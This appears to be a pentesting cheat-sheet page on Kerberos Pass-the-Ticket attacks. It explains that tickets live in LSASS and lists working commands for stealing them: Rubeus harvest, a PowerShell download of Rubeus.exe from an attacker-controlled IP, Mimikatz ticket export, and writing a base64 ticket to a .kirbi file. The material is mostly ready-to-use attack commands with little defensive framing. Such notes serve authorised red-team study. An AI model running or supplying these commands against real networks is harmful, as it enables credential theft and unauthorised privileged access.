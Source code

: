 # Pass The Ticket (Ticket Dump)
Don't create tickets, steal them from cache! With Pass-the-Ticket attacks, a threat actor won’t be forging Kerberos tickets. Instead, they will steal valid tickets that have already been created and issued, and pass them from one system to another in order to access resources as a legitimate, privileged user. 

The TGT and STs are located in the LSASS (Local Security Authority Subsystem Service)

User privilege: get TGT and TSs from user on system
Admin privilege: get all TGTs and TGs from all users on system

Requirements:
* Access to a machine

`Rubeus.exe harvest /interval:30`


Invoke-WebRequest -Uri "192.168.178.137:8000/Rubeus.exe" -OutFile "C:\Users\Administrator\Desktop"

User can request owned tickets, admin can request all.
`Mimikatz`
	sekurlsa::tickets /export
	exit
`\[IO.File\]::WriteAllBytes("ticket.kirbi", \[Convert\]::FromBase64String("<BASE64\_TICKET>"))`
